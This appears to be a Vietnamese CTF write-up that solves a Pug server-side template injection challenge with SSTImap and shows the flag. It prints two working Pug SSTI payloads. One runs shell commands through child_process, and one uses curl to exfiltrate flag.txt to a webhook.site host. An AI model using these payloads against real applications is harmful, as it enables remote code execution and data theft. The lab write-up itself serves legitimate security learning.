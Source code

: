 # GREETINGS (WARM UP)

![image](https://hackmd.io/_uploads/SyNyshpYC.png)
Nhìn sơ qua thì challenge chỉ có 1 route này để nhập tên của mình và hiện lên màn hình. Theo kinh nghiệm của mình thì các challenge như vậy sẽ liên quan tới SSTI hoặc là command injection với câu lệnh echo. 

Mình có test thử SSTI trước. Mình thử các engine phổ biến như JinJa2, Velocity, Spring... nhưng mà không có được nên mình thử chạy tool SSTImap. 
Command: `python3 sstimap.py -u http://challs.tfcctf.com:31924/result?username=perryto --os-shell`

![image](https://hackmd.io/_uploads/r1Bw336Y0.png)
Thành công. Thì ra đây là engine của Pug (lạ quá không biết nữa). Test payload `#{7 * 7}` thì được thật. 
![image](https://hackmd.io/_uploads/S1MLhhTKR.png)

Chạy tool thì nó sẽ tự tạo shell cho mình rồi nên không cần gọi reverse shell từ web nữa
Flag: `TFCCTF{a6afc419a8d18207ca9435a38cb64f42fef108ad2b24c55321be197b767f0409}`

P/s: 
1. `#{global.process.mainModule.constructor._load("child_process").execSync("cat flag.txt").toString()}`
2. `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl https://webhook.site/<id>/?c=$(cat flag.txt | base64 | tr -d "\n")')}()}`
